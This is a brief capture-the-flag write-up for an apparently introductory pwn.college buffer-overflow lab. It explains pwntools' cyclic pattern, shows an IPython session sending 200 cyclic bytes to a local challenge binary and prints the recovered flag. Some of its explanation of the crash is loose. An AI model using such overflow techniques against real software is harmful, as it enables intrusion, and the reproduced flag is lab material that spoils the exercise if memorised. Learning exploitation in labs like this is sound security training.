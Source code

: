 # Your first overflow hard
in this we needed to overflow the buffer
cyclic() generates a unique, non-repeating pattern of bytes (letters).
Each 4-byte (or 8-byte) sequence in that pattern is unique, so when your program crashes and you check the value of $RIP, you can find exactly how many bytes it took to reach that point.

## flag 
pwn.college{8xXY9mcuWfVWYZA_gXKhBfe5XgR.0FM5IDL5gDN1czW}

## Solve
```bash
:/challenge$ ipython
Python 3.12.11 (main, Jun  3 2025, 15:41:47) [GCC 14.2.1 20250322]
Type 'copyright', 'credits' or 'license' for more information
IPython 9.2.0 -- An enhanced Interactive Python. Type '?' for help.
Tip: You can change the editing mode of IPython to behave more like vi, or emacs.

In [1]: from pwn import *

In [2]: r=process('./binary-exploitation-first-overflow')
[x] Starting local process './binary-exploitation-first-overflow'
[+] Starting local process './binary-exploitation-first-overflow': pid 228

In [3]: r.send(cyclic(200))

In [4]: r.readall()
[x] Receiving all data
[x] Receiving all data: 0B
[*] Process './binary-exploitation-first-overflow' stopped with exit code -6 (SIGABRT) (pid 228)
[x] Receiving all data: 178B
[+] Receiving all data: Done (178B)
Out[4]: b'Send your payload (up to 4096 bytes)!\nYou win! Here is your flag:\npwn.college{8xXY9mcuWfVWYZA_gXKhBfe5XgR.0FM5IDL5gDN1czW}\n\n\nGoodbye!\n*** stack smashing detected ***: terminated\n'

```

- we send the cyclic to find how many bits moved in the rip and see the bits needed to overflow the buffer
cyclic send to smash the buffer stack

## Reference 
None

